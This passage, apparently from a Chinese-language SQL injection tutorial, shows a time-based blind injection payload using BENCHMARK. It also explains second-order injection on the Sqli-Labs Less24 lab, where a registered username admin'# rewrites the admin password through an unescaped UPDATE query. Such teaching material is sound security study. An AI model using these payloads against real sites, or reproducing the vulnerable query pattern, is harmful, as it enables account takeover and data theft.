![img](assets/1-28-1024x696.png)

如果我们没有开启报错就只能时间盲注了：

```
select id from test where id >0 order by id limit 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

BENCHMARK(5000000,SHA1(1))等效为sleep()，之前已经讲过了。

# 二次注入

造成二次注入的本质，还是因为对输入没有做足够的限制，导致虽然对攻击者有一定的阻碍，但绕一个圈过去还是能达到目的，以Sqli-Labs Less24为例，它后端修改密码的源码为：

```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'"
```

假如我们注册了一个账号，账号名为admin’#，我们想把它的密码修改为1234567，则后端执行的sql语句就是：

```
UPDATE users SET PASSWORD='1234567' where username='admin’#' and password='$curr_pass'
```
